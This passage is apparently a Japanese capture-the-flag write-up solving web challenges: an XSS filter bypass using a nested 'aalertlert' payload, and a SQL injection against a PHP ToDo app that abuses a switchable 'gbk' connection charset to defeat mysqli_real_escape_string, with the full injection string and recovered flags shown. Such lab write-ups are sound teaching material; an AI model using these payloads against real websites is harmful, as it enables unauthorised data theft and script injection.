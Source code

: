 のようにするとフラッグが表示されました。

```
flag: 2ztJcvm2h52WGvZxF98bcpWv
```

## [超文書転送術 100] 箱庭XSS 2
`AalertB` と入力すると `AB` が返ってきました。`alert` が消されてしまっているようです。  
[`aalertlert` と入力すると `alert` が返ってきた](http://gomiba.co.in/blog/archives/354)のでこれでアラートができそうです。

```html
<script>aalertlert(1)</script>
```

```
flag: n2SCCerG4J9kDkHqvHJNhwr4
```

## [超文書転送術 200] YamaToDo
自分が投稿した ToDo しか読めない ToDo リストサービス。`yamato` さんの ToDo をのぞき見る問題です。

ソースコード付き。怪しいところを探してみます。

```php
$ie = (isset($_GET['ie']) === true) ? preg_replace('/[^a-z0-9]/', '', strtolower((string)$_GET['ie'])) : mb_internal_encoding();
$ie = ($ie !== 'sjis') ? $ie : die('sjis? so sweeeeeeeeeet');
mysqli_query($link, sprintf('set names %s', $ie));
```

`set names …` の文字コードを `/[a-z0-9]+/` の範囲内で自由にいじれるようですが、`sjis` (`Shift_JIS`) はダメみたいです。

```php
$sql = sprintf("insert into todos (`user_id`, `body`, `create_at`) values ('%s', '%s', NOW())",
  mysqli_real_escape_string($link, $_SESSION['user_id']),
  mysqli_real_escape_string($link, $body)
);
```

`mysqli_real_escape_string()` でユーザの ID と本文をエスケープしたあと、ToDo リストに追加しています。

文字コードが変えられるというのが不自然。怪しい。  
`Shift_JIS` といえば、[Wikipedia の Shift_JIS の記事](https://ja.wikipedia.org/wiki/Shift_JIS#2.E3.83.90.E3.82.A4.E3.83.88.E7.9B.AE.E3.81.8C5C.E7.AD.89.E3.81.AB.E3.81.AA.E3.82.8A.E3.81.86.E3.82.8B.E3.81.93.E3.81.A8.E3.81.AB.E3.82.88.E3.82.8B.E5.95.8F.E9.A1.8C)に書いてある、2 バイト目に `0x5c` が入っている文字があるという問題。

これを SQLi につなげるにはどうすればいいんだろうと `stackoverflow sqli charset` でググったところ、[懇切丁寧に解説されている回答](http://stackoverflow.com/a/12118602)を見つけました。  
どうやら `Shift_JIS` でなくとも `gbk` という文字コード (中国の文字コード) でもできるようです。

早速ログインして `/?ie=gbk` にアクセス。  
`?', NOW()), (0x676f68616e, (select a from (select group_concat(body separator 0x7c) as a from todos where user_id=0x79616d61746f) as t),NOW());#` を送信すると、フラッグっぽい文字列が表示されましたが、文字化けしています。  
とりあえずページを保存してバイナリエディタで開き、色々文字コードを試していると `EUC-JP` で `半角でサブミットしてください☆（ゝω・）v ｆｌａｇ＝｛ｒ３ｍ３Ｍｂ３ｒ＿５ｃ＿ｐｒ０ｂＬ３ｍ｝` と読めました。

```
flag: r3m3Mb3r_5c_pr0bL3m
```
